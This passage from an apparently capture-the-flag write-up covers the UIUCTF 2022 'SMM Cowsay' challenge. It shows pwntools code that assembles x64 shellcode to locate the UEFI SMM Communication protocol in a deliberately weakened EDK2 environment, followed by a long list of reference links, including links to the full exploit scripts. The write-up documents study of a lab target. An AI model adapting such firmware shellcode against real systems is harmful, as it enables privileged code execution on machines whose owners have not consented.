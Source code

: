 ### Step 2: get ahold of mSmmCommunication to talk to SmmCowsay

In order to locate `mSmmCommunication` we need to pass a pointer to the protocol
GUID to `LocateProtocol`, and a pointer to the a location where the resulting
pointer should be stored. We already have a RWX area of memory available (the
one where our shellcode is written), so let's use that. We normally wouldn't,
but the patch `0005-PiSmmCpuDxeSmm-Open-up-all-the-page-table-access-res.patch`
to EDK2 sets all entries of the page table to RWX so we're good.

From disassembling any of the UEFI drivers, we can see that the calling
convention is [Microsoft x64][x64-call], so arguments in RCX, RDX, R8, R9, then
stack.

```python
# Taken from EDK2 source code (or opening Binexec.efi in a disassembler)
gEfiSmmCommunicationProtocolGuid = 0x32c3c5ac65db949d4cbd9dc6c68ed8e2

code = asm(f'''
    /* LocateProtocol(gEfiSmmCommunicationProtocolGuid, NULL, &protocol) */
    lea rcx, qword ptr [rip + guid]
    xor rdx, rdx
    lea r8, qword ptr [rip + protocol]
    mov rax, {LocateProtocol}
    call rax

    test rax, rax
    jnz fail

    mov rax, qword ptr [rip + protocol] /* mSmmCommunication */
    mov rbx, qword ptr [rax]            /* mSmmCommunication->Communicate */
    ret

fail:
    ud2

guid:
    .octa {gEfiSmmCommunicationProtocolGuid}
protocol:
''')
conn.sendline(code.hex().encode() + b'\ndone')

conn.recvuntil(b'RAX: 0x')
mSmmCommunication = int(conn.recvn(16), 16)
conn.recvuntil(b'RBX: 0x')
Communicate = int(conn.recvn(16), 16)

log.success('mSmmCommunication              @ 0x%x', mSmmCommunication)
log.success('mSmmCommunication->Communicate @ 0x%x', Communicate)
```

### Step 3: kindly ask SmmCowsay to print the flag for us


[smm1]: #smm-cowsay-1
[smm2]: #smm-cowsay-2
[smm3]: #smm-cowsay-3
[expl1]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_1.py
[expl2]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_2.py
[expl3]: https://github.com/TowerofHanoi/towerofhanoi.github.io/blob/master/writeup_files/uiuctf-2022_smm-cowsay/expl_smm_cowasy_3.py
[tweet]:                               https://twitter.com/MeBeiM/status/1554849894237609985
[uiuctf]:                              https://ctftime.org/event/1600/
[uiuctf-archive]:                      https://2022.uiuc.tf/challenges
[author]:                              https://github.com/zhuyifei1999
[wiki-smm]:                            https://en.wikipedia.org/wiki/System_Management_Mode
[intel-sdm]:                           https://www.intel.com/content/www/us/en/developer/articles/technical/intel-sdm.html
[uefi-spec]:                           https://uefi.org/specifications
[uefi-spec-pdf]:                       https://uefi.org/sites/default/files/resources/UEFI_Spec_2_9_2021_03_18.pdf
[man-cowsay]:                          https://manned.org/cowsay.1
[man-pahole]:                          https://manned.org/pahole.1
[x64-call]:                            https://docs.microsoft.com/en-us/cpp/build/x64-calling-convention?view=msvc-170
[x86-rsm]:                             https://www.felixcloutier.com/x86/rsm
[x86-rdrand]:                          https://www.felixcloutier.com/x86/rdrand
[gh-pwntools]:                         https://github.com/Gallopsled/pwntools
[gh-ropgadget]:                        https://github.com/JonathanSalwan/ROPgadget
[gh-edk2]:                             https://github.com/tianocore/edk2
[gh-edk2-securityex]:                  https://github.com/jyao1/SecurityEx
[gh-qemu]:                             https://github.com/qemu/qemu
[qemu-memtxattrs]:                     https://github.com/qemu/qemu/blob/v7.0.0/include/exec/memattrs.h#L35
[edk2-SystemTable]:                    https://edk2-docs.gitbook.io/edk-ii-uefi-driver-writer-s-guide/3_foundation/33_uefi_system_table
[edk2-SmiHandlerRegister]:             https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdeModulePkg/Core/PiSmmCore/Smi.c#L213
[edk2-EfiRuntimeServicesData]:         https://github.com/tianocore/edk2/blob/0ecdcb6142037dd1cdd08660a2349960bcf0270a/BaseTools/Source/C/Include/Common/UefiMultiPhase.h#L25
[edk2-SmmCommunicationCommunicate]:    https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L110
[edk2-EFI_SMM_COMMUNICATION_PROTOCOL]: https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L267
[edk2-copy-msg]:                       https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdeModulePkg/Core/PiSmmCore/PiSmmIpl.c#L547
[edk2-smi-entry]:                      https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiEntry.nasm#L89
[edk2-gadget]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/Library/BaseLib/X64/LongJump.nasm#L54
[edk2-MdePkg]:                         https://github.com/tianocore/edk2/blob/1774a44ad91d01294bace32b0060ce26da2f0140/MdePkg/MdePkg.dec
[edk2-buffer-check]:                   https://github.com/tianocore/edk2/blob/7c0ad2c33810ead45b7919f8f8d0e282dae52e71/MdePkg/Library/SmmMemLib/SmmMemLib.c#L163
[edk2-gdt]:                            https://github.com/tianocore/edk2/blob/2812668bfc121ee792cf3302195176ef4a2ad0bc/UefiCpuPkg/PiSmmCpuDxeSmm/X64/SmiException.nasm#L31